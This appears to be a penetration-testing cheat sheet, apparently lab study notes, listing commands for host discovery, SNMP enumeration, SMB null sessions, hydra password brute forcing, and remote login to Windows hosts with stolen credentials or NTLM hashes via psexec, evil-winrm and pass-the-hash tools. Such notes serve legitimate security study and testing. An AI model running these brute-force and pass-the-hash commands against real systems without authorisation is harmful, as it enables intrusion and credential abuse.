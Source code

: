 ### Alive hosts
- `netdiscover -i tap0 -r 10.10.10.0/24`
- `arp-scan -I tap0 10.10.10.0/24`

### SNMP
- Commin snmp community strings 
	-	onesixtyone -c /usr/share/doc/onesixtyone/dict.txt 10.10.10.20 
	-	[seclists](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/SNMP/common-snmp-community-strings.txt)
	-	common strings : `public` `private` 
- onesistyone `onesixtyone -c ./common-snmp-community-strings.txt 10.10.10.5`
- snmpwalk `snmpwalk -v 1 -c public 10.10.10.20`
- snmpenum.pl [http://dl.packetstormsecurity.net/UNIX/scanners/snmpenum.zip](http://dl.packetstormsecurity.net/UNIX/scanners/snmpenum.zip)
	- `perl snmpenum.pl 10.10.10.5 public windows.txt` (windows.txt in zip)

### SMB
- Bruteforce
	-	`hydra -L users.txt -P /usr/share/john/password.lst 10.10.10.20 smb -f -V`
- Netbios (TCP 139 | UDP 137 138)
	- [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brws/0c773bdd-78e2-4d8b-8b3d-b7506849847b?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brws/0c773bdd-78e2-4d8b-8b3d-b7506849847b?redirectedfrom=MSDN) 
	- Netbios can give us Hostname, Netbios name, Domain, Network Shares
	- UNC (Universal Naming Convention) paths `\\ServerName\ShareName\file.txt`
- Default administrative shares - `C$` C drive|`admin$` Windows installation|`ipc$` interprocess communication
- Null sessions 
	- `net view IP` `nmblookup -A ip` `smbclient -L //IP -N` `net use \\IP\C$ '' /u: ''` `smbclient //IP/$C -N` 
	- `enum -S IP` `enum -U IP` `enum -P IP`
	- `smbmap -H IP`

### SMB with creds/hashes
- Login with creds
	- `psexec.py administrator:Password1@10.0.0.10`
	- `smbexec.py administrator:carolina@10.0.0.169`
	- `winexe -U administrator%alice_123321 //10.0.0.6 'whoami'`
	- `evil-winrm -u administrator -p rocknroll_123321 -i 10.0.0.192`
- Login with hash
    - `pth-winexe -U user%NTLM_HASH //10.10.10.10 cmd.exe`
    - `python smbclient.py -hashes 00000000000000000000000000000000:3CAC6D4B3A7E5014E32EB12EF0C75476 Domain/Administrator@IP`
